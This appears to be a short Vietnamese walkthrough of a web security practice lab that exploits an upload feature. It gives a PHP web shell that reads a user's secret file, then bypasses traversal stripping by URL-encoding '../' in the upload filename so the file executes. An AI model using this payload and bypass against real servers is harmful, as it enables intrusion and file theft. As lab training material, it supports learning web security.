


## Web shell upload via path traversal

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận được thông báo upload thành công, truy cập vào path ``/files/avatars/payload.php`` nhận thấy nội dung file không được thực thi mà ở dạng plain text.



3. Gửi request ``POST /my-account/avatar`` vào Burp Repeater thay đổi ``Content-Disposition`` header param ``filename`` thành ``../payload.php``. Gửi request thì thông báo trả về là ``The file avatars/payload.php has been uploaded``. Nhận thấy có vẻ như server đã strip các directory traversal sequence.

4. Mã hóa url các directory traversal sequence thành ``..%2fpayload.php`` rồi gửi lại request thì nhận được thông báo ``The file avatars/../payload.php has been uploaded`` tức ``payload.php`` đã được thêm vào thư mục cha của thư mục ``avatars``.



5. Truy cập vào path ``/files/payload.php`` nhận được secret của carlos.